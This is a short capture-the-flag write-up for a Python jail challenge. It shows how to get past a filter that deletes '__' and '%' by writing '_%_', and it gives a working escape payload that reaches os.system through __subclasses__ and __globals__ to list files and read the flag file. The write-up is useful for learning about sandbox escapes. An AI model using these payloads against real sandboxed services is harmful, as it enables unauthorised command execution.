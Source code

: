 #incognito CTF 2022

##pyjail 1

a python jail challenge which was filtering ```__``` so we couldn't call ```__builtins__``` or etc.
after some fuzzing I found that ```%``` is also filtered. so there was an idea for me


in fuzzing part I got that ```__``` will be replaced with nothing, ```%``` also replaced with nothing.
THE IDEA =>  what if we write ```_%_```.    YES , ```%``` would be replaced with nothing and now we have ```__```
so let's write our payload.


1) List all classes which are running in this python system by using this command. ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()```.
2) Find the index of ```<class 'os._wrap_close'>``` in this case the index of ```<class 'os._wrap_close'>``` is 138.
3) Call the system module in ```__globals__``` to list files and directories by using this command ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()[138]._%_init_%_._%_globals_%_['system']('ls')```.
4) Show the flag string from ```jail1``` by using this command ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()[138]._%_init_%_._%_globals_%_['system']('cat jail1')```.

## we got the flag

```ictf{REDACTED}```



there were 2 more pyjail challenges which we solved all of them.
